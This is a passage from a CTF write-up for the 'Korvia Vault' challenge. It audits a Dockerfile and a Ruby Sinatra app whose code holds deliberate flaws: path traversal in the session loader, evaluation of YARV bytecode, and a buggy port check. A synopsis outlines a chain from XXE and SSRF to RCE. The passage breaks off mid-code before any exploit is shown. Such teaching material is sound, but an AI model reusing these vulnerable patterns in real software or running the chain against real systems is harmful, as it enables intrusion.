






<font size="5">Korvia Vault</font>

6<sup>th</sup> February 2026

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=red>Insane</font>

​Classification: Official

# [Synopsis](#synopsis)

Ruby slice bug bypasses condition => Arbitrary port number => downgrade websocket connection to TCP => Internal Java service has TLS cert SSRF CVE => Use jar protocol file upload race condition => Upload zip / ruby vm executable => Blind OOB XXE to leak users.json to get secret => Blind OOB XXE to leak /tmp filename of uploaded file => Use secret to craft signature => Path traversal on session cookie id => Load YARV byte code => RCE

## Description

Korvia Vault is a secure intelligence platform operated by Directorate 9 to store classified operational data, surveillance records, and internal communications tied to Korvia’s cyber campaigns. The system is split between a public-facing portal and protected internal services that handle sensitive information. Nightfall’s mission is to infiltrate the platform, breach its internal network, and uncover intelligence linked to Gilded Weaver’s ongoing operations.

## Skills Required

- Understanding of Ruby and Sinatra web framework
- Understanding of Java XML parsing and XXE vulnerabilities
- Understanding of TLS certificate extensions (AIA)
- Understanding of Ruby YARV bytecode format
- Understanding of race conditions and timing attacks
- Understanding of cryptographic session management (HMAC)

## Skills Learned

- Exploiting internal Ruby bugs to bypass input validation
- Downgrading WebSocket connections to TCP
- Chaining blind XXE with OOB exfiltration techniques
- Abusing Java's Authority Information Access (AIA) extension for SSRF
- Exploiting Java jar URL caching mechanism for file upload and race conditions
- Forging session cookies using leaked HMAC secrets
- Exploiting path traversal on session cookies
- Achieving RCE through malicious YARV bytecode injection

## Application Overview

Visiting the challenge's page we are greeted by a login page for the "Archmaester's Vault" application. The interface has a dark mystical theme with options to login or register.



The login page requires a username and password. Since we don't have credentials, we can use the registration functionality to create an account.



After registering and logging in, we are presented with a dashboard showing our session information.



The dashboard displays basic user information and session details. There's also a profile page accessible to authenticated users.



The profile page shows session metadata including the session ID, creation time, and validation status.

## Source code audit

Let's start by the heart of challenges, the `Dockerfile`.

```Dockerfile
FROM eclipse-temurin:21.0.9_10-jdk

RUN apt update && apt install -y --no-install-recommends supervisor ruby ruby-dev gcc g++ make libc-dev && \
    apt clean && rm -rf /var/lib/apt/lists/* && \
    gem install bundler && \
    useradd -m -s /bin/bash appuser
```

The Dockerfile begins with the `eclipse-temurin:21.0.9_10-jdk` base image, which provides Java 21 JDK. This is important because certain Java features we'll exploit later depend on specific JDK behaviors. The image then installs several packages including `supervisor` for process management, `ruby` and its development headers for the external application, and `gcc`/`g++` for compiling a SUID binary. A non-root user `appuser` is created to run the applications.

```Dockerfile
WORKDIR /opt/internal-app
COPY challenge/internal-app/gradlew ./gradlew
COPY challenge/internal-app/gradle ./gradle
COPY challenge/internal-app/build.gradle challenge/internal-app/settings.gradle ./
COPY challenge/internal-app/src ./src

ENV GRADLE_USER_HOME=/opt/internal-app/.gradle
RUN chmod +x gradlew && \
    ./gradlew classes --no-daemon && \
    chown -R appuser:appuser /opt/internal-app
```

The internal Java application is set up next. The Gradle wrapper and project files are copied to `/opt/internal-app`, and the Java classes are precompiled with `./gradlew classes`. This internal application, as we'll see later, runs a TLS server and a WebSocket server that are only accessible from localhost.

```Dockerfile
WORKDIR /opt/external-app
COPY challenge/external-app .
RUN mkdir -p sessions && \
    bundle config set --local path 'vendor/bundle' && \
    bundle install && \
    chown -R appuser:appuser /opt/external-app && \
    chmod 755 /opt/external-app
```

The external Ruby application is installed at `/opt/external-app`. Notice that a `sessions` directory is created - this is where YARV bytecode session files will be stored. The Ruby dependencies are installed via Bundler.

```Dockerfile
COPY challenge/readflag/readflag.c /tmp/readflag.c
RUN gcc -o /usr/local/bin/readflag /tmp/readflag.c && \
    chown root:root /usr/local/bin/readflag && \
    chmod 4755 /usr/local/bin/readflag && \
    rm /tmp/readflag.c

COPY flag.txt /root/flag.txt
RUN chmod 600 /root/flag.txt
```

Here we see the flag protection mechanism. The flag is stored in `/root/flag.txt` with restrictive permissions (mode 600, readable only by root). A SUID binary `readflag` is compiled and installed with the SUID bit set (`chmod 4755`). This means any user can execute `readflag`, and it will run with root privileges, allowing it to read the protected flag file. Our goal is to find a way to execute this binary.

```Dockerfile
COPY challenge/config/supervisord.conf /etc/supervisord.conf
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 1337

ENTRYPOINT ["/entrypoint.sh"]
```

Finally, supervisord configuration is set up and port 1337 is exposed. This is the only port accessible from outside the container.

Let's examine the `entrypoint.sh` script which runs when the container starts:

```sh
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Rename flag to randomized filename in /root
RANDOM_SUFFIX=$(head -c 16 /dev/urandom | base64 | tr -dc 'a-zA-Z0-9' | head -c 16)
mv /root/flag.txt "/root/flag_${RANDOM_SUFFIX}.txt"
chmod 600 "/root/flag_${RANDOM_SUFFIX}.txt"
```

The entrypoint script performs several important security measures. First, it randomizes the flag filename by appending a 16-character random suffix. This means we cannot simply read `/root/flag.txt` directly - we need to use the `readflag` SUID binary which knows how to find and read the flag regardless of its randomized name.

```sh
# Generate random keystore password
export STORE_PASSWORD=$(head -c 32 /dev/urandom | base64 | tr -dc 'a-zA-Z0-9' | head -c 24)

# Recreate keystores with random password
cd /opt/internal-app
rm -f keystore.p12 truststore.p12 server.crt
keytool -genkeypair -alias server -keyalg RSA -keysize 2048 \
    -storetype PKCS12 -keystore keystore.p12 \
    -storepass "$STORE_PASSWORD" -keypass "$STORE_PASSWORD" \
    -dname "CN=localhost,O=InternalApp,C=US" -validity 365 2>/dev/null
keytool -exportcert -alias server -keystore keystore.p12 \
    -storepass "$STORE_PASSWORD" -file server.crt 2>/dev/null
keytool -importcert -alias server -keystore truststore.p12 \
    -storetype PKCS12 -storepass "$STORE_PASSWORD" -file server.crt -noprompt 2>/dev/null
chown appuser:appuser keystore.p12 truststore.p12 server.crt
chmod 640 keystore.p12 truststore.p12
```

The script also generates fresh TLS keystores with a random password on each container start. A PKCS12 keystore is created with a 2048-bit RSA key pair, and a truststore is set up containing the server's self-signed certificate. These keystores are used by the internal Java TLS server. The random password stored in `STORE_PASSWORD` environment variable is passed to the internal application via supervisord.

```sh
# Background cleanup to keep /tmp clean
(while true; do rm -rf /tmp/hsperfdata_* 2>/dev/null; sleep 5; done) &

exec /usr/bin/supervisord -c /etc/supervisord.conf
```

The script also starts a background cleanup process to periodically remove Java performance data from `/tmp`. Finally, supervisord is started to manage both applications.

```conf
[supervisord]
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid
user=root

[program:internal-app]
command=/opt/internal-app/gradlew run --no-daemon --offline
directory=/opt/internal-app
user=appuser
environment=STORE_PASSWORD="%(ENV_STORE_PASSWORD)s"
autostart=true
autorestart=true
stdout_logfile=/dev/null
stdout_logfile_maxbytes=0
stderr_logfile=/dev/null
stderr_logfile_maxbytes=0

[program:external-app]
command=bundle exec ruby /opt/external-app/app.rb -e production
directory=/opt/external-app
user=appuser
autostart=true
autorestart=true
stdout_logfile=/dev/null
stdout_logfile_maxbytes=0
stderr_logfile=/dev/null
stderr_logfile_maxbytes=0
```

Looking at `supervisord.conf` we see the two services that run on the container. The `internal-app` is the Java application started via Gradle, and it receives the `STORE_PASSWORD` environment variable needed to access the TLS keystores. The `external-app` is the Ruby Sinatra application that listens on port 1337 (the only externally accessible port). Both applications run as the unprivileged `appuser`.

## Analyzing the Ruby External Application

The Ruby application at `challenge/external-app/app.rb` is the front-facing application that handles user authentication and provides a WebSocket bridge to internal services. We'll analyze each function and route in the order they appear in the source file.

### Imports and Configuration

```ruby
require 'sinatra'
require 'bcrypt'
require 'securerandom'
require 'openssl'
require 'base64'
require 'fileutils'
require 'json'
require 'digest/sha1'
require 'socket'
require 'timeout'

set :bind, '0.0.0.0'
set :port, 1337
set :logging, false
set :sessions_dir, File.join(File.dirname(__FILE__), 'sessions')
set :users_file, File.join(File.dirname(__FILE__), 'users.json')
set :views, File.join(File.dirname(__FILE__), 'views')
set :public_folder, File.join(File.dirname(__FILE__), 'public')

FileUtils.mkdir_p(settings.sessions_dir)
```

The application is built on Sinatra, a lightweight Ruby web framework. It imports `bcrypt` for password hashing, `openssl` for HMAC signing, `securerandom` for token generation, and `socket` for TCP connections. The server binds to `0.0.0.0:1337`, making it externally accessible. Two key paths are configured: `sessions_dir` for session files and `users_file` for the JSON credentials file.

### Function: load_users

```ruby
def load_users
  return { 'users' => [], 'next_id' => 1 } unless File.exist?(settings.users_file)
  JSON.parse(File.read(settings.users_file))
rescue JSON::ParserError
  { 'users' => [], 'next_id' => 1 }
end
```

Reads and parses the `users.json` file. Returns an empty structure if the file doesn't exist or contains invalid JSON. The file is stored at `/opt/external-app/users.json` in the container.

### Function: save_users

```ruby
def save_users(data)
  File.write(settings.users_file, JSON.generate(data))
end
```

Serializes user data back to the JSON file on disk.

### Function: find_user_by_username

```ruby
def find_user_by_username(username)
  data = load_users
  data['users'].find { |u| u['username'] == username }
end
```

Searches the users array for a matching username and returns the user hash, or `nil` if not found.

### Function: create_user

```ruby
def create_user(username, password_hash, secret)
  data = load_users
  
  return nil if data['users'].any? { |u| u['username'] == username }
  
  user = {
    'id' => data['next_id'],
    'username' => username,
    'password_hash' => password_hash,
    'secret' => secret,
    'created_at' => Time.now.utc.iso8601
  }
  
  data['users'] << user
  data['next_id'] += 1
  save_users(data)
  
  user
end
```

Creates a new user with an auto-incremented ID. Each user gets a unique `secret` field (64-character hex string) that is used for HMAC signing of session cookies. Returns `nil` if the username already exists.

**Example users.json structure:**
```json
{
  "users": [
    {
      "id": 1,
      "username": "archmaester",
      "password_hash": "$2a$12$LQv3c1yqBWVHxkd0LHAkCOYz6TtxMQJqhN8/X4.G9HqRUPmQhKmJa",
      "secret": "a1b2c3d4e5f6789012345678901234567890123456789012345678901234abcd",
      "created_at": "2026-02-06T10:00:00Z"
    }
  ],
  "next_id": 2
}
```

### Function: sign_session

```ruby
def sign_session(username, secret)
  OpenSSL::HMAC.hexdigest('SHA256', secret, username)
end
```

Computes an HMAC-SHA256 signature using the user's secret as the key and the **username** as the message. Returns a 64-character hex string.

### Function: verify_signature

```ruby
def verify_signature(username, signature, secret)
  expected = sign_session(username, secret)
  signature == expected
end
```

Recomputes the expected signature and compares it to the provided one. Returns `true` if they match.

### Function: create_session_cookie

```ruby
def create_session_cookie(session_id, signature)
  "#{session_id}|#{signature}"
end
```

Concatenates the session ID and signature with a pipe delimiter. The cookie format is `session_id|signature`.

### Function: parse_session_cookie

```ruby
def parse_session_cookie(cookie)
  return nil unless cookie
  parts = cookie.split('|')
  return nil unless parts.length == 2
  { session_id: parts[0], signature: parts[1] }
end
```

Splits the cookie on the pipe character and returns a hash with `:session_id` and `:signature` keys. Returns `nil` for invalid cookies.

### Function: create_session

```ruby
def create_session(session_id, username)
  session_code = <<~RUBY
    { 
      username: "#{username}",
      session_id: "#{session_id}",
      created_at: "#{Time.now.utc.iso8601}",
      valid: true
    }
  RUBY
  
  iseq = RubyVM::InstructionSequence.compile(session_code)
  yarv_binary = iseq.to_binary
  
  session_path = File.join(settings.sessions_dir, "#{session_id}")
  File.binwrite(session_path, yarv_binary)
  
  session_path
end
```

Creates a session file containing YARV bytecode. It constructs a Ruby code string that returns a hash, compiles it to bytecode using `RubyVM::InstructionSequence.compile`, serializes to binary with `to_binary`, and writes to a file named after the session_id.

### Function: load_session

```ruby
def load_session(session_id)
  session_path = File.join(settings.sessions_dir, session_id)
  
  return nil unless File.exist?(session_path)
  
  begin
    yarv_binary = File.binread(session_path)
    iseq = RubyVM::InstructionSequence.load_from_binary(yarv_binary)
    iseq.eval
  rescue
    nil
  end
end
```

Loads a session by reading the binary file at `sessions_dir/session_id`, loading it as YARV bytecode with `load_from_binary`, and executing it with `iseq.eval` to get the session data hash. The path is constructed using `File.join` without sanitization.

### Function: parse_backend_ref

```ruby
def parse_backend_ref(ref)
  return nil if ref.nil? || ref.empty?
  
  ref_utf8 = ref.dup.force_encoding('UTF-8')
  suffix = ref_utf8.slice(-1, 1)
  return nil if suffix.nil?
  return nil if suffix.length <= 1
  
  ref_binary = ref.force_encoding('ASCII-8BIT')
  if ref_binary =~ /(\d{4})[^\d]*$/
    $1.to_i
  else
    nil
  end
rescue
  nil
end
```

Parses the `ref` query parameter to extract a port number. Forces input to UTF-8, uses `slice(-1, 1)` to get the last character, checks if length is greater than 1, then extracts the last 4 digits using a regex. Returns `nil` for invalid input.

### Route: GET /

```ruby
get '/' do
  session_cookie = request.cookies['session']
  if session_cookie && !session_cookie.empty?
    redirect '/dashboard'
  else
    redirect '/login'
  end
end
```

Root route that redirects authenticated users to `/dashboard` and unauthenticated users to `/login`.

### Route: GET /login

```ruby
get '/login' do
  erb :login
end
```

Renders the login form template.

### Route: POST /login

```ruby
post '/login' do
  username = params[:username]
  password = params[:password]
  
  if username.nil? || username.empty? || password.nil? || password.empty?
    @error = 'Username and password required'
    return erb :login
  end
  
  user = find_user_by_username(username)
  
  if user.nil?
    @error = 'Invalid credentials'
    return erb :login
  end
  
  stored_hash = BCrypt::Password.new(user['password_hash'])
  unless stored_hash == password
    @error = 'Invalid credentials'
    return erb :login
  end
  
  session_id = SecureRandom.hex(16)
  create_session(session_id, username)
  signature = sign_session(username, user['secret'])
  session_cookie = create_session_cookie(session_id, signature)
  
  response.set_cookie('session', {
    value: session_cookie,
    path: '/',
    httponly: true
  })
  
  redirect '/dashboard'
end
```

Handles login form submission. Validates credentials using BCrypt, generates a random 32-character hex session_id, creates the YARV bytecode session file, computes the HMAC signature, and sets the session cookie.

**Traffic Example:**
```http
POST /login HTTP/1.1
Host: target:1337
Content-Type: application/x-www-form-urlencoded

username=archmaester&password=secret123
```

```http
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: session=a1b2c3d4e5f6789012345678901234ab|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234; path=/; HttpOnly
```

### Route: GET /register

```ruby
get '/register' do
  erb :register
end
```

Renders the registration form template.

### Route: POST /register

```ruby
post '/register' do
  username = params[:username]
  password = params[:password]
  
  if username.nil? || username.empty? || password.nil? || password.empty?
    @error = 'Username and password required'
    return erb :register
  end
  
  unless username.match?(/\A[a-zA-Z0-9]+\z/)
    @error = 'Username must contain only alphanumeric characters'
    return erb :register
  end
  
  secret = SecureRandom.hex(32)
  password_hash = BCrypt::Password.create(password).to_s
  
  user = create_user(username, password_hash, secret)
  
  if user.nil?
    @error = 'Username already exists'
    return erb :register
  end
  
  redirect '/login'
end
```

Handles registration. Validates username is alphanumeric, generates a random 64-character hex secret, hashes the password with BCrypt, and creates the user.

**Traffic Example:**
```http
POST /register HTTP/1.1
Host: target:1337
Content-Type: application/x-www-form-urlencoded

username=archmaester&password=secret123
```

```http
HTTP/1.1 302 Found
Location: /login
```

### Route: POST /logout

```ruby
post '/logout' do
  session_cookie = request.cookies['session']
  
  if session_cookie
    parsed = parse_session_cookie(session_cookie)
    if parsed && parsed[:session_id].match?(/\A[a-f0-9]{32}\z/)
      session_path = File.join(settings.sessions_dir, parsed[:session_id])
      File.delete(session_path) if File.exist?(session_path)
    end
  end
  
  response.delete_cookie('session', path: '/')
  redirect '/'
end
```

Deletes the session file (if session_id matches expected format) and clears the session cookie.

### Route: GET /dashboard

```ruby
get '/dashboard' do
  session_cookie = request.cookies['session']
  
  if session_cookie.nil? || session_cookie.empty?
    redirect '/login'
  end
  
  parsed = parse_session_cookie(session_cookie)
  if parsed.nil?
    redirect '/login'
  end
  
  session_data = load_session(parsed[:session_id])
  if session_data.nil?
    redirect '/login'
  end
  
  user = find_user_by_username(session_data[:username])
  if user.nil?
    redirect '/login'
  end
  
  unless verify_signature(session_data[:username], parsed[:signature], user['secret'])
    redirect '/login'
  end
  
  erb :dashboard
end
```

Protected route that validates the session cookie, loads session data via `load_session`, verifies the signature, and renders the dashboard.

**Traffic Example:**
```http
GET /dashboard HTTP/1.1
Host: target:1337
Cookie: session=a1b2c3d4e5f6789012345678901234ab|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234
```

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>Archmaester's Vault - Dashboard</title>
  <link rel="stylesheet" href="/css/style.css">
</head>
<body>
  <nav class="navbar">
    <a href="/dashboard">Dashboard</a>
    <a href="/profile">Profile</a>
    <form action="/logout" method="post" style="display:inline">
      <button type="submit">Logout</button>
    </form>
  </nav>
  <main class="container">
    <h1>Welcome, archmaester</h1>
    <div class="glass-orb">
      <h2>Glass Candle Network</h2>
      <p>Connected to the realm monitoring system.</p>
      <button onclick="connectWebSocket()">View Realm Activity</button>
    </div>
  </main>
  <script src="/js/websocket.js"></script>
</body>
</html>
```

### Route: GET /profile

```ruby
get '/profile' do
  session_cookie = request.cookies['session']
  
  if session_cookie.nil? || session_cookie.empty?
    redirect '/login'
  end
  
  parsed = parse_session_cookie(session_cookie)
  if parsed.nil?
    redirect '/login'
  end
  
  session_data = load_session(parsed[:session_id])
  if session_data.nil?
    redirect '/login'
  end
  
  user = find_user_by_username(session_data[:username])
  if user.nil?
    redirect '/login'
  end
  
  unless verify_signature(session_data[:username], parsed[:signature], user['secret'])
    redirect '/login'
  end
  
  @session = session_data
  erb :profile
end
```

Similar to `/dashboard` but sets `@session` for the template to display session metadata.

**Traffic Example:**
```http
GET /profile HTTP/1.1
Host: target:1337
Cookie: session=a1b2c3d4e5f6789012345678901234ab|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234
```

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>Archmaester's Vault - Profile</title>
  <link rel="stylesheet" href="/css/style.css">
</head>
<body>
  <nav class="navbar">
    <a href="/dashboard">Dashboard</a>
    <a href="/profile">Profile</a>
    <form action="/logout" method="post" style="display:inline">
      <button type="submit">Logout</button>
    </form>
  </nav>
  <main class="container">
    <h1>Session Profile</h1>
    <div class="session-info">
      <p><strong>Username:</strong> archmaester</p>
      <p><strong>Session ID:</strong> a1b2c3d4e5f6789012345678901234ab</p>
      <p><strong>Created At:</strong> 2026-02-06T10:15:30Z</p>
      <p><strong>Status:</strong> <span class="valid">Valid</span></p>
    </div>
  </main>
</body>
</html>
```

### Route: GET /ws-bridge

```ruby
get '/ws-bridge' do
  session_cookie = request.cookies['session']
  
  if session_cookie.nil? || session_cookie.empty?
    halt 401, 'Unauthorized'
  end
  
  parsed = parse_session_cookie(session_cookie)
  if parsed.nil?
    halt 401, 'Unauthorized'
  end
  
  session_data = load_session(parsed[:session_id])
  if session_data.nil?
    halt 401, 'Unauthorized'
  end
  
  user = find_user_by_username(session_data[:username])
  if user.nil?
    halt 401, 'Unauthorized'
  end
  
  unless verify_signature(session_data[:username], parsed[:signature], user['secret'])
    halt 401, 'Unauthorized'
  end
  
  if request.env['HTTP_UPGRADE']&.downcase == 'websocket'
    port = 3000
    
    backend_ref = params['ref']
    parsed_port = parse_backend_ref(backend_ref)
    port = parsed_port if parsed_port
    
    request.env['rack.hijack'].call
    io = request.env['rack.hijack_io']
    
    Thread.new do
      begin
        key = request.env['HTTP_SEC_WEBSOCKET_KEY']
        accept = Digest::SHA1.base64digest(key + '258EAFA5-E914-47DA-95CA-C5AB0DC85B11')
        
        io.write("HTTP/1.1 101 Switching Protocols\r\n")
        io.write("Upgrade: websocket\r\n")
        io.write("Connection: Upgrade\r\n")
        io.write("Sec-WebSocket-Accept: #{accept}\r\n\r\n")
        io.flush
        
        backend = TCPSocket.new('127.0.0.1', port)
        
        if port == 3000
          begin
            k = SecureRandom.base64(16)
            backend.write("GET / HTTP/1.1\r\n")
            backend.write("Host: 127.0.0.1:#{port}\r\n")
            backend.write("Upgrade: websocket\r\n")
            backend.write("Connection: Upgrade\r\n")
            backend.write("Sec-WebSocket-Key: #{k}\r\n")
            backend.write("Sec-WebSocket-Version: 13\r\n")
            backend.write("\r\n")
            backend.flush
